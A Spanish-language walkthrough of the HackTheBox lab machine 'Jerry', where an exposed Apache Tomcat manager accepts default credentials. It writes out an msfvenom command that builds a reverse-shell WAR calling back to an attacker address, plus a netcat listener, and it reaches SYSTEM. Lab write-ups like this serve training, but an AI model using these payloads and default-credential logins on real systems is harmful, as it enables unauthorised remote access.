







# Jerry — HackTheBox

**Cadena de ataque:** Apache Tomcat 7.0.88 → credenciales por defecto → WAR malicioso → SYSTEM

---

## Reconocimiento

```bash
nmap -sC -sV 10.129.136.9
```



Un solo puerto abierto: 8080 corriendo Apache Tomcat 7.0.88.

---

## Enumeración Web

El puerto 8080 expone el panel de administración de Tomcat. Al intentar acceder a `/manager/html` solicita credenciales.



Probamos las credenciales por defecto `tomcat:s3cret` — acceso concedido.

---

## Explotación — WAR malicioso

Desde el Manager App de Tomcat se pueden desplegar aplicaciones en formato WAR. Generamos un payload con msfvenom:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.196 LPORT=4444 -f war -o shell.war
```



Subimos el archivo desde la sección **WAR file to deploy** y lo desplegamos.



Nos ponemos a escuchar:

```bash
nc -lvnp 4444
```

Accedemos a `http://10.129.136.9:8080/shell` para ejecutar el payload y recibimos la conexión.



---

## Flags

```bash
whoami
```



Acceso directo como **SYSTEM** — sin escalada de privilegios necesaria.

```bash
type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
```



Jerry incluye ambos flags en un solo archivo.
